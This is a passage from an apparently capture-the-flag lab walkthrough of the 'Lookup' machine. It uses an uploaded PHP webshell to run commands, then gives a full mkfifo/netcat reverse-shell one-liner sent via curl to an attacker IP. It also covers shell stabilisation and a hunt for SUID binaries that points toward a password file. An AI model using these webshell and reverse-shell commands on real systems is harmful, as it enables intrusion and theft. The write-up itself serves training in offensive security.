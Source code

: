 We can confirm this by making a request to our webshell at `http://files.lookup.thm/elFinder/php/shell.php`, and we are successful at executing commands.

```console
$ curl -s 'http://files.lookup.thm/elFinder/php/shell.php?c=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sending a reverse shell payload using `curl`.

```console
$ curl -s 'http://files.lookup.thm/elFinder/php/shell.php' --get --data-urlencode 'c=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.72.22 443 >/tmp/f'
```
{: .wrap }

With that, we got a shell in our listener, and after stabilizing it, we can see that it is as the `www-data` user.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.150.247] 58106
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ export TERM=xterm
<kup.thm/public_html/elFinder/php$ export TERM=xterm
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[2]  - continued  nc -lvnp 443

www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as think

### Reverse-engineering the SUID Binary

Checking the machine for any binaries with the `suid` bit set, we find the `/usr/sbin/pwm` binary.

```console
www-data@lookup:/var/www$ find / -perm -u=s 2>/dev/null
...
/usr/sbin/pwm
...
```

Running it, the binary claims to be running the `id` command to find the username, then attempts to open the `/home/<username>/.passwords` file. In our case, it fails because the `/home/www-data/.passwords` file does not exist.

```console
www-data@lookup:/var/www$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```
